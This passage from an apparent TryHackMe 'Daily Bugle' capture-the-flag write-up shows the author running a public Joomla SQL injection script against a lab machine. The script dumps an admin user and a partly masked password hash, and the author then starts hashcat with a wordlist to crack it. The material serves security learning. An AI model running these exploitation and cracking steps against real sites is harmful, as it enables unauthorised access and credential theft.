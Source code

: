 ```
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
(dspo6㉿kali)[~/pentest/boxes/thm/daily_bugle]$ 
```

Searching the web for exploits led me to https://github.com/stefanlucas/Exploit-Joomla which is for the CVE I tried earlier with sqlmap but this time as a Python script.

The first few attempts failed. The python script kept giving errors. Looking at the Github page I noticed that there was a pull request with the change required to prevent the error. I manually update the script and was able to extract the users from the database.

```
(dspo6㉿kali)[~/pentest/boxes/thm/daily_bugle/utils]$ python3 joomblah.py http://10.10.239.170/
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$1XXXXXXXXXXXXya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
(dspo6㉿kali)[~/pentest/boxes/thm/daily_bugle/utils]$ 
```


I then used hashcat to obtain the password for the user jonah. 

```
PS D:\Google Drive\Cyber Security\Utils\hashcat-6.1.1> .\hashcat.exe -a 0 -m 3200 .\target\target.hash ..\wordlists\rockyou.txt
hashcat (v6.1.1) starting...

* Device #1: CUDA SDK Toolkit installation NOT detected.
             CUDA SDK Toolkit installation required for proper device support and utilization
             Falling back to OpenCL Runtime

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
OpenCL API (OpenCL 1.2 CUDA 11.2.109) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #1: GeForce GTX 1070, 6528/8192 MB (2048 MB allocatable), 15MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
```